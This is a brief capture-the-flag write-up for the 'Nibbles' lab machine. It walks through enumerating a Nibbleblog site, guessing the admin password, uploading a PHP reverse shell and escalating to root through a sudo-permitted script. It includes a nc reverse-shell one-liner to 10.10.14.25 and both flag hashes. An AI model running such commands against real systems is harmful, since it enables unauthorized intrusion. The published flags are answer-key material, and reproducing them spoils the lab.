

## Nibbles
*Easy*

Began with port scanning using rustscan.


Opened the webpage.


Checked the source code.


So I went to /nibbleblog


I then used gobuster.


I opened /admin, but didn't find anything interesting. Then I tried /content. Playing around a little I found /content/private/users.xml. Also the /README file had some version information.


There was a login page at /admin.php


Tried using common credentials like admin:admin but didn't work. With some guessing tried admin:nibbles and got logged in.


Not knowing what to do, I used searchsploit.


So there must be some option to upload a file. Looking around, I found file upload in the plugins tab at My Image.


I uploaded a php reverse shell. Then I opened /content/private/plugins/my_image/image.php and found a shell waiting for me at the listener.


Thus I got the user flag.



User flag  **1ccddd6b3afe711a191c2df9ad8b6a1d**

Also notice personal.zip. On unzipping it I found monitor.sh. Searching for how to become root, I tried sudo -l


So if we rewrite this shell script and execute it, we can become root.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.25 4444 >/tmp/f
```


When you run monitor.sh as ./monitor.sh I got the reverse shell as nibbler. But when used the complete path with sudo, I got the shell as root.


Root flag  **f6c1d67b29933657abf8d65ee1689f31**
